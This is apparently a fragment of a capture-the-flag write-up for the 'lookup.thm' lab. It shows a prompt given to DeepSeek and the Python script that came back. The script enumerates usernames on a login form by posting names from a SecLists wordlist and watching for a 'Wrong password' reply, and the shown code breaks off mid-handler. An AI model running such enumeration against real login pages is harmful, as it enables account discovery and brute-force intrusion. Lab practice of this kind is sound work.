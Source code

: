 went to deepseek give the following prompt:
```
Create a Python script that performs a username enumeration attack on a login form. The script should:

1. Target the URL "http://lookup.thm/login.php" using POST requests
2. Read usernames from the file "/usr/share/seclists/Usernames/Names/names.txt"
3. Use a fixed password "password" for all login attempts
4. Check the response content to distinguish between valid and invalid usernames:
   If response contains "Wrong password", print "Username found: [username]"
   If response contains "wrong username", silently continue to the next username
5. Include proper error handling for file not found and HTTP request exceptions
6. Use the requests library for HTTP operations
7. Strip whitespace from each username and skip empty lines
```
response
```python
import requests
import sys
from requests.exceptions import RequestException

def enumerate_usernames():
    # Target URL and file path
    url = "http://lookup.thm/login.php"
    username_file = "/usr/share/seclists/Usernames/Names/names.txt"
    password = "password"
    
    try:
        # Open and read the username file
        with open(username_file, 'r', encoding='utf-8', errors='ignore') as file:
            usernames = file.readlines()
        
        print(f"Testing {len(usernames)} usernames...", file=sys.stderr)
        
        # Iterate through each username
        for username in usernames:
            # Strip whitespace and skip empty lines
            username = username.strip()
            if not username:
                continue
            
            # Prepare the POST data
            data = {
                'username': username,
                'password': password
            }
            
            try:
                # Send POST request
                response = requests.post(url, data=data, timeout=10)
                
                # Check if the request was successful
                if response.status_code == 200:
                    response_text = response.text
                    
                    # Only print valid usernames (Wrong password response)
                    if "Wrong password" in response_text:
                        print(username)
                
            except RequestException:
                # Silently continue on request errors
                continue
                
    except FileNotFoundError:
```